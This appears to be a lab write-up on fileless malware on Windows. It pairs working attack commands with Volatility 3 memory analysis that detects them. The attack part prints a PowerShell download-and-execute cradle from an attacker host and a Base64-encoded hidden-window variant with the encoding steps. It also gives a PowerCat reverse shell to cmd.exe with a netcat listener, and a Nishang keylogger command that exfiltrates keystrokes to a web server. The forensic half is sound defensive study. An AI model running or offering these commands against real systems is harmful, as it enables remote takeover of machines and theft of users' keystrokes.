

# Fileless Malware on Windows

The goal here is to have a malware that is not visible in non-volatile memory but is identifiable in volatile memory. To achieve this, I used a reverse shell (PowerCat: https://github.com/besimorhino/powercat). Here are the limitations of the approach used:

* The payload must be written in PowerShell.

* Windows Defender must be disabled (for ease).

* To ensure the process remains visible in RAM during image capture, it must be an active or sleeping process (not a Metasploit auxiliary module, for example).

The architecture used here is simply a Kali Linux representing the attacker at address 192.168.0.188 and a Windows target on which a reverse shell and a keylogger are installed. Here is a simple representation of the architecture:

The command executed on the target is as follows:
```PowerShell
powershell.exe -c "iex (New-Object System.Net.Webclient).DownloadString('http://192.168.0.188/test/shell.ps1')"
```
This command downloads the "```shell.ps1```" file and executes it in memory. No trace of the script execution will be visible on the hard drive.
## Payload Setup

The payload will be hosted on a web server directly accessible from the victim.
Below is the payload. It downloads PowerCat and executes it to connect to a server (```192.168.0.188```) on port ```4443``` and opens a ```cmd.exe``` upon connection. This is the content of the ```shell.ps1``` file:
```PowerShell
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.0.188 -p 4443 -e cmd.exe
```
Next, I opened a listener on the server machine:
Bash
```Bash
nc -nlvp 4443
```
This reverse shell (powercat) communicates in cleartext over the network via a TCP connection.
## Execution on the Target

Here, I encoded the original payload (to download ```shell.ps1```) into Base64:
```PowerShell

powershell.exe -NonInteractive -WindowStyle Hidden -E aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAYwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMAAuADEAOAA4AC8AdABlAHMAdAAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA=
```
A shell is then seen opening on the server.
For Base64 encoding, the following commands can be used:
```PowerShell

$Command = "iex (New-Object System.Net.Webclient).DownloadString('http://192.168.0.188/test/shell.ps1')"
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Command)
$EncodedCommand = [Convert]::ToBase64String($Bytes)
$EncodedCommand
```
## RAM Analysis (Volatility 3)

In this case, the analysis is performed on an image where the execution on the target was not Base64 encoded. According to my research, it should still be possible to see the decoded command in the process ```strings``` because the process had to load this command into memory.
I created an image here using FTK Imager.

First, I analyzed the processes running on the machine; we can see our PowerShell and the underlying cmd serving as the reverse shell (PID 14552 for PowerShell and 7660 for cmd). We also see that cmd.exe is indeed a child process of powershell.exe.
```Bash
python3 vol.py -f win.mem windows.pslist
# 14552   4852    powershell.exe  0xa20fa43c7080  17      -       1       False   2025-10-22 13:52:53.000000 UTC  N/A     Disabled
# 7660    14552   cmd.exe 0xa20f98fd1080  1       -       1       False   2025-10-22 13:52:54.000000 UTC  N/A     Disabled
```
The second step consists of analyzing the command history:
```Bash
python3 vol.py -f win.mem windows.cmdline
```
We can then see our PowerShell and our cmd:
```shell

14552   powershell.exe  "C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe" -c "iex (New-Object System.Net.Webclient).DownloadString('http://192.168.0.188/test/shell.ps1')"
7660    cmd.exe "cmd.exe"
```
Next, by analyzing the PowerShell process, I identified code injections via malfind that are not present on the disk:
```Bash
python3 vol.py -f win.mem windows.malware.malfind --pid 14552
```
```shell
PID     Process Start VPN       End VPN Tag     Protection      CommitCharge    PrivateMemory   File output     Notes   Hexdump Disasm

14552   powershell.exe  0x244a2af0000   0x244a2afffff   VadS    PAGE_EXECUTE_READWRITE  8       1       Disabled        N/A
00 00 00 00 00 00 00 00 fc 63 11 d7 70 07 00 01 .........c..p...
ee ff ee ff 02 00 00 00 20 01 af a2 44 02 00 00 ........ ...D...
20 01 af a2 44 02 00 00 00 00 af a2 44 02 00 00  ...D.......D...
00 00 af a2 44 02 00 00 0f 00 00 00 00 00 00 00 ....D...........
0x244a2af0000:  add     byte ptr [rax], al
0x244a2af0002:  add     byte ptr [rax], al
0x244a2af0004:  add     byte ptr [rax], al
0x244a2af0006:  add     byte ptr [rax], al
0x244a2af0008:  cld
14552   powershell.exe  0x244bca00000   0x244bca19fff   VadS    PAGE_EXECUTE_READWRITE  1       1       Disabled        N/A
00 00 00 00 00 00 00 00 90 78 af a2 44 02 00 00 .........x..D...
90 78 af a2 44 02 00 00 00 00 af a2 44 02 00 00 .x..D.......D...
40 0e a0 bc 44 02 00 00 00 10 a0 bc 44 02 00 00 @...D.......D...
00 a0 a1 bc 44 02 00 00 01 00 00 00 00 00 00 00 ....D...........
0x244bca00000:  add     byte ptr [rax], al
0x244bca00002:  add     byte ptr [rax], al
0x244bca00004:  add     byte ptr [rax], al
0x244bca00006:  add     byte ptr [rax], al
0x244bca00008:  nop
0x244bca00009:  js      0x244bc9fffba
0x244bca0000b:  movabs  byte ptr [0xa2af789000000244], al
0x244bca00014:  add     r8b, byte ptr [rax]
0x244bca00017:  add     byte ptr [rax], al
0x244bca00019:  add     byte ptr [rdi + 0x244a2], ch
0x244bca0001f:  add     byte ptr [rax + 0xe], al
0x244bca00022:  movabs  al, byte ptr [0xa0100000000244bc]
0x244bca0002b:  mov     esp, 0x244
0x244bca00030:  add     byte ptr [rax + 0x244bca1], ah
0x244bca00036:  add     byte ptr [rax], al
0x244bca00038:  add     dword ptr [rax], eax
0x244bca0003a:  add     byte ptr [rax], al
0x244bca0003c:  add     byte ptr [rax], al
0x244bca0003e:  add     byte ptr [rax], al
14552   powershell.exe  0x7df462800000  0x7df46289ffff  VadS    PAGE_EXECUTE_READWRITE  2       1       Disabled        N/A
d8 ff ff ff ff ff ff ff 08 00 00 00 00 00 00 00 ................
01 00 00 00 00 00 00 00 00 02 0e 03 38 00 00 00 ............8...
68 01 04 08 0c 00 00 00 b0 0b 89 8c fd 7f 00 00 h...............
00 10 84 8c fd 7f 00 00 08 53 9b 8c fd 7f 00 00 .........S......
0x7df462800000: fdivr   st(7)
14552   powershell.exe  0x7df4627f0000  0x7df4627fffff  VadS    PAGE_EXECUTE_READWRITE  1       1       Disabled        N/A
00 00 00 00 00 00 00 00 78 0d 00 00 00 00 00 00 ........x.......
0c 00 00 00 49 c7 c2 00 00 00 00 48 b8 10 ec c4 ....I......H....
91 fd 7f 00 00 ff e0 49 c7 c2 01 00 00 00 48 b8 .......I......H.
10 ec c4 91 fd 7f 00 00 ff e0 49 c7 c2 02 00 00 ..........I.....
0x7df4627f0000: add     byte ptr [rax], al
0x7df4627f0002: add     byte ptr [rax], al
0x7df4627f0004: add     byte ptr [rax], al
0x7df4627f0006: add     byte ptr [rax], al
0x7df4627f0008: js      0x7df4627f0017
0x7df4627f000a: add     byte ptr [rax], al
0x7df4627f000c: add     byte ptr [rax], al
0x7df4627f000e: add     byte ptr [rax], al
0x7df4627f0010: or      al, 0
0x7df4627f0012: add     byte ptr [rax], al
0x7df4627f0014: mov     r10, 0
0x7df4627f001b: movabs  rax, 0x7ffd91c4ec10
0x7df4627f0025: jmp     rax
0x7df4627f0027: mov     r10, 1
0x7df4627f002e: movabs  rax, 0x7ffd91c4ec10
0x7df4627f0038: jmp     rax
```
```PAGE_EXECUTE_READWRITE``` → The code can be written, modified, deleted, and executed.

```File output``` → ```Disabled``` → These memory regions do not correspond to any location in non-volatile memory.

Machine instructions are also visible in 4 different memory regions for this process.
Subsequently, I continued analyzing these processes to see if they were manipulated or hidden via various techniques, but found nothing conclusive.
```Bash
python3 vol.py -f win.mem windows.malware.psxview.PsXView
```
```shell
Offset(Virtual) Name    PID     pslist  psscan  thrdscan        csrss   Exit Time

0xa20fa43c7080  powershell.exe  14552   True    True    True    True
0xa20f98fd1080  cmd.exe 7660    True    True    True    True
```
I also tested ```windows.netstat``` and ```windows.consoles``` to obtain network connections and a deeper command history, but nothing conclusive there either.
I then extracted the different processes:
```Bash
python3 vol.py -f win.mem windows.memmap --pid 7660 --dump
python3 vol.py -f win.mem windows.memmap --pid 14552 --dump
```
Then I analyzed the different dumps using the strings command. I filtered based on IP addresses, URLs, and file names (exe, ps1, vbs).
```Bash

strings pid.14552.dmp | grep -E '(\b25[0-5]|\b2[0-4][0-9]|\b[01]?[0-9][0-9]?)(\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)){3}'
strings pid.7660.dmp | grep -E '(\b25[0-5]|\b2[0-4][0-9]|\b[01]?[0-9][0-9]?)(\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)){3}'

strings pid.7660.dmp | grep -E 'https?:\/\/[a-zA-Z0-9\-\.]+(\/\S*)?'
strings pid.14552.dmp | grep -E 'https?:\/\/[a-zA-Z0-9\-\.]+(\/\S*)?'

strings pid.7660.dmp | grep -E '\b\w+\.(exe|dll|bat|ps1|vbs)\b'
strings pid.14552.dmp | grep -E '\b\w+\.(exe|dll|bat|ps1|vbs)\b'
```

In each output, I was able to find the original command to download ```shell.ps1``` and the command to install PowerCat and start the reverse shell:
```text

em32\windowspowershell\v1.0\powershell.exe" -c "iex (new-object system.net.webclient).downloadstring('http://192.168.0.188/test/shell.ps1')"
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.0.188 -p 4443 -e cmd.exe
```
In the cmd process, the URI of shell.ps1 can also be found several times, likely corresponding to the moment the script was downloaded:
```Plaintext

uri: http://192.168.0.188/test/shell.ps1
host: 192.168.0.188, 
uri: http://192.168.0.188/test/shell.ps1
uri: http://192.168.0.188/test/shell.ps1
```
## Keylogger

Here, a keylogger is started on the Windows machine (https://github.com/samratashok/nishang/blob/master/Gather/Keylogger.ps1). This keylogger sends all data as POST requests to a web server via the ```-Exfiltration``` and ```-URL``` parameters. The ```-CheckURL``` parameter allows specifying a Pastebin that the keylogger will check for a specific string (specified with ```-MagicString```). If this string appears in the Pastebin, the keylogger stops.
```PowerShell

iex (New-Object Net.Webclient).DownloadString('http://192.168.0.188/test/powerpreter.psm1');Keylogger -CheckURL https://pastebin.com/aPf1qpJB -MagicString stopthis -exfil -ExfilOption WebServer -URL http://192.168.0.188/test/catch.php
```

To execute this payload in memory, I used Powerpreter, a utility that directly provides functions for the various payloads provided by Nishang. However, the lack of documentation on Nishang is a major limitation in understanding the tool, as the only documentation is the source code.
This keylogger does, however, keep a file containing the different keys entered by the user (```C:\Users\user\AppData\Local\Temp\key.log```). This file uses a specific Nishang encoding; to decode it, there is a ```Parse_Key``` script usable as follows: ```Parse_Key key.log output.txt```.
Regarding the data sent over the network, it consists of the various keys encoded by the Nishang algorithm and Base64 encoded.
To stop the keylogger manually, simply close the PowerShell window from which it was started.
However, I was unable to encode the payload on my end.
## Keylogger RAM

In the RAM, the following information can be found:

* Different PowerShell sessions (some directly contain the Keylogger code loaded in memory).
* Executed commands.
* Network connections for exfiltration.